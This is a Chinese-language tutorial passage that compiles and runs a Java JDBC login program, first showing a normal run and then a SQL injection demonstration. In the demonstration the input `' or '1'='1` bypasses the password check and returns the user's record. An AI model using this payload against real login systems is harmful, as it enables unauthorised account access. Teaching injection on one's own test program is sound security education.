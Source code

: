 然后编译运行：
```
$ javac -sourcepath src/main src/main/org/zqq/jdbc/GetUserDetails.java

$ java --class-path src/main:lib/* org.zqq.jdbc.GetUserDetails

Please enter email id:
840486874@qq.com
User id=840486874@qq.com
Please enter password to get details:
111111
User password=111111

DB connection created successfully
select name, country, password from Users where email = '840486874@qq.com' and password ='111111'
Name=zqq, country=CN, password=111111
```

# 3 Running

编译：
```
$ javac -sourcepath src/main src/main/org/zqq/jdbc/GetUserDetails.java
```

## 3.1 正常

运行：
```
$ javac -sourcepath src/main src/main/org/zqq/jdbc/GetUserDetails.java

$ java --class-path src/main:lib/* org.zqq.jdbc.GetUserDetails

Please enter email id:
840486874@qq.com
User id=840486874@qq.com
Please enter password to get details:
111111
User password=111111

DB connection created successfully
select name, country, password from Users where email = '840486874@qq.com' and password ='111111'
Name=zqq, country=CN, password=111111
```

## 3.2 SQL注入
运行：  
关键在于输入了`840486874@qq.com' or '1'='1`，使得SQL语句变为`select name, country, password from Users where email = '840486874@qq.com' or '1'='1' and password =''`，因为`'1'='1'`永真，所以跳过了密码验证，这可能是最简单的SQL注入，找到SQL注入点

```
$ java --class-path src/main:lib/* org.zqq.jdbc.GetUserDetails
Please enter email id:
840486874@qq.com' or '1'='1
User id=840486874@qq.com' or '1'='1
Please enter password to get details:

User password=
DB connection created successfully
select name, country, password from Users where email = '840486874@qq.com' or '1'='1' and password =''
Name=zqq, country=CN, password=111111
```
